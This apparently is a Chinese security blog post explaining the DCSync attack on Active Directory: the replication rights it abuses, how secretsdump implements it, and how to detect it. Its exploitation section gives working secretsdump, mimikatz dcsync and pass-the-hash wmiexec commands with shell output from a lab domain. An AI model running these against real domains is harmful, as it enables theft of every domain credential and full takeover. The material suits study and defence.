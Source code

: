 ```yaml
---
title: DCsync原理及利用
date: 2019-12-31 23:59:50 +0800
categories: [域安全, TA0006凭据访问]
tags: [dcsync, TA0006凭据访问]     # TAG names should always be lowercase
typora-root-url: ..
---
```




# DCsync原理及利用

## 原理

域中的账户、密码信息是存储在域控机器上`C:\Windows\NTDS\NTDS.dit`文件里, 以往是需要在域控机器上执行dump hash操作的；而通过DCSync，则可以从其他机器上，远程从`C:\Windows\NTDS\NTDS.dit`中获取密码hash。相比于在域控上访问lsass.exe进程或拷贝`NTDS.dit`、`System` 文件，其噪音更小。

[Directory Replication Service (DRS) Remote Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-drsr/f977faaa-673e-4f66-b9bf-48c640241d47) 是一个RPC协议，用于复制和管理Active Directory中的数据。如果账户具有以下[扩展权限](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2003/cc772673(v=ws.10))，即可调用DRS服务提供的接口[GetNCChanges ](https://msdn.microsoft.com/en-us/library/dd207691.aspx)，向Domain Controller请求复制NC中数据。`Replicating Directory Changes`不能复制secret domain, 必须加上`Replicating Directory Changes All`权限。

- Replicating Directory Changes (DS-Replication-Get-Changes)
  *Extended right needed to replicate only those changes from a given NC that are also replicated to the Global Catalog (which excludes secret domain data). This constraint is only meaningful for Domain NCs.*
- Replicating Directory Changes All (DS-Replication-Get-Changes-All)
  *Control access right that allows the replication of all data in a given replication NC, including secret domain data.*
- *Replicating Directory Changes In Filtered Set (rare, only required in some environments)*

默认情况下，Administrators, Domain Admins,  Enterprise Admins 及 Domain Controllers组中的账户有权限执行DCSync。



![image-20201115172519581](/assets/img/image-20201115172519581.png)

![image-20201115172857881](/assets/img/image-20201115172857881.png)

**DCSync 流程:**

1. Discovers Domain Controller in the specified domain name.
2. Requests the Domain Controller replicate the user credentials via [GetNCChanges ](https://msdn.microsoft.com/en-us/library/dd207691.aspx)



## 实现

![image-20201115182337527](/assets/img/image-20201115182337527.png)

第三个参数`DRS_MSG_GETCHGREQ* pmsgIn`里定义了需要同步的数据，其数据结构定义如下:

![image-20201115181818373](/assets/img/image-20201115181818373.png)



`secretsdump.py`中`def DRSGetNCChanges`对DCSync的实现:

![image-20201115182006964](/assets/img/image-20201115182006964.png)

可以看到secretdump.py 请求同步了这些数据:

![image-20201115182230673](/assets/img/image-20201115182230673.png)



 [dcsync.pcapng](https://github.com/RingLcy/BlogStorage/tree/main/traffic/dcsync.pcapng) 

![image-20201220155630670](/assets/img/image-20201220155630670.png)



## 利用

### 查找具有DCSync权限的账户

```
//AD自带工具
dsacls "DC=ring2,DC=com"
```

![image-20201115185039484](/assets/img/image-20201115185039484.png)

```
// powershell activedirectory module
import-module activedirectory
get-acl "AD:\DC=ring2,DC=com" |Select-Object -ExpandProperty Access
```

![image-20201115185304928](/assets/img/image-20201115185304928.png)

```
Import-Module ActiveDirectory

cd 'AD:DC=ring2,DC=com'

$AllReplACLs = (Get-AcL).Access | Where-Object {$_.ObjectType -eq '1131f6ad-9c07-11d1-f79f-00c04fc2dcd2' -or $_.ObjectType -eq '1131f6aa-9c07-11d1-f79f-00c04fc2dcd2'}

#Filter this list to RIDs above 1000 which will exclude well-known Administrator groups

foreach ($ACL in $AllReplACLs){

    $user = New-Object System.Security.Principal.NTAccount($ACL.IdentityReference)

    $SID = $user.Translate([System.Security.Principal.SecurityIdentifier])

    $RID = $SID.ToString().Split("-")[7]

    if([int]$RID -gt 1000)

    {

        Write-Host "Permission to Sync AD granted to:" $ACL.IdentityReference

    }

}
```



### impacket-secretsdump.py

```
python secretsdump.py -just-dc-user [ACCOUNT] [DOMAIN]/[USERNAME]:[PASSWORD]@[TARGET]
python secretsdump.py -just-dc [DOMAIN]/[USERNAME]:[PASSWORD]@[TARGET]
python secretsdump.py ring2.com/win10:Test1234@ringdc-pc.ring2.com
```



获取域控机器密码Hash后，可使用Pass-the-hash登录域控机器

```
C:\Users\win10\AppData\Local\Programs\Python\Python37\Scripts>python wmiexec.py ring2.com/administrator@ringdc-pc.ring2.com -hashes "aad3b435b51404eeaad3b435b51404ee:b9e0cfceaf6d077970306a2fd88a7c0a"
Impacket v0.9.21 - Copyright 2020 SecureAuth Corporation

[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>whoami
ring2\administrator
```



### mimikatz

```
mimikatz "lsadump::dcsync /domain:ring2.com /user:Administrator"
mimikatz "lsadump::dcsync /domain:rd.adsecurity.org /user:krbtgt"
mimikatz "lsadump::dcsync /domain:[FQDN_DOMAIN] /all /csv"
```



## 检测

通过检测发出DsGetNCChange请求的不是已知域控IP来检测。

*获取域控IP：*

PowerShell Active Directory module cmdlet:

> Get-ADDomainController -filter * | select IPv4Address


PowerShell:

> [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain().DomainControllers | select IPAddress



![Mimikatz-DCSync-KRBTGT-PacketCapture-DSGetNCChanges](/assets/img/Mimikatz-DCSync-KRBTGT-PacketCapture-DSGetNCChanges.jpg)







## 参考

[Mimikatz DCSync Usage, Exploitation, and Detection](https://adsecurity.org/?p=1729)

[DC Sync Attacks With Secretsdump.py](https://www.youtube.com/watch?v=QfyZQDyeXjQ&t=697s)



